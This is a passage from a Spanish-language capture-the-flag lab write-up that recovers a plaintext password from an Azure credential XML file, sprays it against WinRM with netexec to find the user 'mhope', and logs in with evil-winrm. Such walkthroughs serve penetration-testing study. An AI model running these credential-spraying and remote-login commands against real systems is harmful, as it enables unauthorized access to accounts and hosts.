 En el archivo `azure.xml` encontraremos unas credenciales 

```python
❯ cat azure.xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>                                                                                                                                                                                           
```

Haciendo uso de `netexec` intentaremos hacer `brute force` para encotrar un usuario valido contra el servicio `winrm`

```python
❯ netexec winrm 10.10.10.172 -u user.txt -p '4n0therD4y@n0th3r$'
```

![20240329013748.png](20240329013748.png)

Obtenemos un usuario valido que es `mhope`

```python
mhope : 4n0therD4y@n0th3r$ 
```

## Usuario : mhope 

Luego de tener las credenciales validas podremos acceder por el servicio `winrm` con la herramienta `evil-winrm`

![20240329013844.png](20240329013844.png)
